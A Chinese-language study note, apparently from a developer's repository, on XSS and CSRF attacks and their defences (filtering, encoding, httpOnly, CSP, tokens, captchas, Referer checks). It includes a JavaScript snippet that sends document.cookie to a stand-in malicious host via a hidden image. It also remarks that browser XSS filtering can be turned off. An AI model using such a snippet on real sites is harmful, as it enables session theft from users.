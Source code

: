 # 安全

## XSS 和 CSRF 防御

XSS 和 CSRF 都属于跨站攻击，XSS 是实现 CSRF 诸多途径中的一条，但不是唯一一条

xss 的本质是让对方浏览器执行你插入的 js ，来获取 cookie 等信息；csrf 是借用用户的身份，向服务器发送请求

XSS 分为存储型和反射型：

- 存储型 XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种 XSS 比较危险，容易造成蠕虫，盗窃 cookie 等
- 反射型 XSS，非持久化，需要欺骗用户自己去点击链接才能触发 XSS 代码。发出请求时，XSS 代码出现在 URL 中，作为输入提交到服务器端，服务器端解析后响应，XSS 代码随响应内容一起传回给浏览器，最后浏览器解析执行 XSS

## XSS 防范

- 1.客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的 js 代码被植入到 HTML 代码中，使得 js 代码得以执行
- 移除用户上传的 DOM 属性，如 onerror 等
- 移除用户上传的 style 节点，script 节点，iframe 节点等
- 2.对用户输入的代码标签进行转换（html encode）
- 3.对 url 中的参数进行过滤
- 4.对动态输出到页面的内容进行 HTML 编码
- 5.服务端对敏感的 Cookie 设置 httpOnly 属性，使 js 脚本不能读取到 cookie
- 6.CSP 即是 Content Security Policy

```javascript
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);

这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。
```

目前很多浏览器都会自身对用户的输入进行判断，检测是否存在攻击字符，比如你上述提到的`<script>`标签，这段脚本很明显就是一段 xss 攻击向量，因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将这个拦截关闭

## 跨站请求伪造的过程与防范

[对于跨站伪造请求（CSRF）的理解和总结](http://www.imooc.com/article/13552)

过程：用户小明在你的网站 A 上面登录了，A 返回了一个 session ID（使用 cookie 存储）,小明的浏览器保持着 A 网站的登录状态，攻击者小强给小明发送了一个链接地址，小明打开了地址的时候，这个页面已经自动的对网站 a 发送了一个请求，通过使用小明的 cookie 信息，这样攻击者小强就可以随意更改小明在 A 上的信息。

1. 使用 token：服务器随机产生 tooken，然后以 tooken 为秘钥产生一段密文，把 token 和密文都随 cookie 交给前端，前端发起请求时把密文和 token 交给后端，后端对 token 和密文进行验证，看 token 能不能生成同样的密文，这样即使黑客拿到了 token 也无法拿到密文

```
http://www.weibo.cn?follow_uid=123&token=73ksdkfu102
```

2. 使用验证码：每一个重要的 post 提交页面，使用一个验证码，因为第三方网站是无法获得验证码的
3. 检测 http 的头信息 refer。Referer 记录了请求的来源地址，服务器要做的是验证这个来源地址是否合法
4. 涉及敏感操作的请求改为 POST 请求
